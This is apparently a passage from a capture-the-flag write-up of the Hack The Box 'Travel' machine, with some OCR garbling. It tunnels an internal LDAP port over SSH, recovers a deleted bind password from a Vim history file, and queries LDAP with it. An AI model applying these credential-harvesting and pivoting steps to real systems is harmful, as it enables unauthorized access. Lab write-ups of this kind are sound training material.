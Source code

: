 ```text
ldap.travel.htb
BASE dc=travel,dc=htb
BINDDN cn=lynik-admin,dc=travel,dc=htb
```

> The default LDAP port 389 can to exposed to our machine using SSH. ssh -L 389:172.20.0.10:389 lynik-admin@10.10.10.189 This will let us access the server from localhost. Let's attempt to query the LDAP service.

`ldapsearch -x -h 127.0.0.1 -b "DC=travel,DC=htb" -D "CN=lynik-admin,DC=travel,DC=htb"` The -x option specifies simple anonymous authentication. The -b flag is used to specify the search base, while the -D flag specifies the bind DN. These values came from the .ldaprc file.

ssh port forward tunnel

> This file is used to store metadata and user interaction history with Vim, which is a text editor. It helps Vim remember details such as the cursor placement, deleted data as well as search patterns.
>
> \`\`\`
>
> ## Registers:
>
> ""1 LINE 0 BINDPW Theroadlesstraveled \|3,1,1,1,1,0,1587670528,"BINDPW Theroadlesstraveled"
>
> ## File marks:
>
> '0 3 0 ~/.ldaprc \|4,48,3,0,1587670530,"~/.ldaprc"

```text
> The file stores a line which subsequently deleted from the .ldaprc file. This line contain the
> bind password Theroadlesstraveled . Let's try using it to connect to LDAP.
```

lynik-admin@travel:~$ ldapsearch -x -w Theroadlesstraveled

## extended LDIF

## LDAPv3

## base  \(default\) with scope subtree

## filter: \(objectclass=\*\)

## requesting: ALL

## travel.htb

dn: dc=travel,dc=htb objectClass: top objectClass: dcObject objectClass: organization o: Travel.HTB dc: travel
